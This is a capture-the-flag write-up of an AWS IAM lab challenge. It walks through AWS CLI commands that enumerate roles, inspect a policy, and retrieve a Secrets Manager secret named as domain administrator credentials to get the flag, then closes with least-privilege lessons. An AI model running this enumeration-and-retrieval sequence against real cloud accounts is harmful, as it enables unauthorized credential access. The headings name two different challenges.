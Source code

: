 # Cloudfoxable 5 - Backwards

# BigIAMChallenge.com - Challenge 10

## Challenge Statement

In this challenge, we needed to retrieve a hidden flag stored in AWS Secrets Manager. We were given access to an IAM role named `Alexander-Arnold`, which had permissions that could help us access the flag. Our task was to enumerate IAM roles, analyze permissions, and extract the flag from AWS Secrets Manager.

## Analysis

The challenge required us to investigate the permissions assigned to `Alexander-Arnold` and determine if they allowed access to AWS Secrets Manager.

### **Step 1: Enumerating IAM Roles**

First, we listed the available IAM roles using AWS CLI:

```bash
aws iam list-roles --profile cloudfoxable
```

#### **Output:**

```json
{
  "Roles": [
    {
      "RoleName": "Alexander-Arnold",
      "Arn": "arn:aws:iam::418295694570:role/Alexander-Arnold"
    }
  ]
}
```

This confirmed the presence of the `Alexander-Arnold` role.

### **Step 2: Checking Attached Policies**

We then checked the policies attached to `Alexander-Arnold`:

```bash
aws iam list-attached-role-policies --role-name Alexander-Arnold --profile cloudfoxable
```

#### **Output:**

```json
{
  "AttachedPolicies": [
    {
      "PolicyName": "corporate-domain-admin-password-policy",
      "PolicyArn": "arn:aws:iam::418295694570:policy/corporate-domain-admin-password-policy"
    }
  ]
}
```

### **Step 3: Reviewing the Policy**

We retrieved the policy document to analyze its permissions:

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::418295694570:policy/corporate-domain-admin-password-policy --version-id v1 --profile cloudfoxable
```

#### **Output:**

```json
{
  "PolicyVersion": {
    "Document": {
      "Statement": [
        {
          "Action": ["secretsmanager:GetSecretValue"],
          "Effect": "Allow",
          "Resource": [
            "arn:aws:secretsmanager:us-east-1:418295694570:secret:DomainAdministrator-Credentials-mQa7vU"
          ]
        }
      ]
    }
  }
}
```

This indicated that the `Alexander-Arnold` role had access to retrieve a specific secret from AWS Secrets Manager.

### **Step 4: Listing Secrets**

We listed available secrets to identify the relevant one:

```bash
aws secretsmanager list-secrets --profile cloudfoxable
```

#### **Output:**

```json
{
  "SecretList": [
    {
      "Name": "DomainAdministrator-Credentials",
      "ARN": "arn:aws:secretsmanager:us-east-1:418295694570:secret:DomainAdministrator-Credentials-mQa7vU"
    }
  ]
}
```

### **Step 5: Retrieving the Secret Value**

Since our policy allowed access to `DomainAdministrator-Credentials`, we extracted the secret using:

```bash
aws secretsmanager get-secret-value --secret-id DomainAdministrator-Credentials --profile Alexander-Arnold
```

#### **Output:**

```json
{
  "SecretString": "FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}"
}
```

The flag was successfully retrieved!

## Solution Summary

1. **Enumerated IAM roles** using `aws iam list-roles`.
2. **Checked attached policies** for `Alexander-Arnold`.
3. **Retrieved and analyzed the policy document** to identify `secretsmanager:GetSecretValue` permissions.
4. **Listed secrets** in AWS Secrets Manager.
5. **Retrieved the secret value**, successfully obtaining the flag.

**Flag:**

```
FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}
```

## Reflection

### **Approach Taken**

- Enumerated IAM roles and policies.
- Identified `secretsmanager:GetSecretValue` permissions.
- Retrieved secret values using AWS CLI.

### **Challenges Faced**

- Understanding AWS IAM role permissions.
- Ensuring the correct AWS profile was used for requests.

### **Security Takeaways**

- **IAM permissions should follow the principle of least privilege.**
  - The policy allowed access to sensitive credentials, which could be exploited if misconfigured.
- **Secrets should have strict access controls.**
  - Any role with `secretsmanager:GetSecretValue` permissions should be carefully managed.
- **AWS CloudTrail should be enabled to monitor access to secrets.**
  - Logging and alerts should be set up for sensitive secret access attempts.

This challenge reinforced the importance of IAM privilege management and the need for secure access controls in AWS Secrets Manager. 🚀
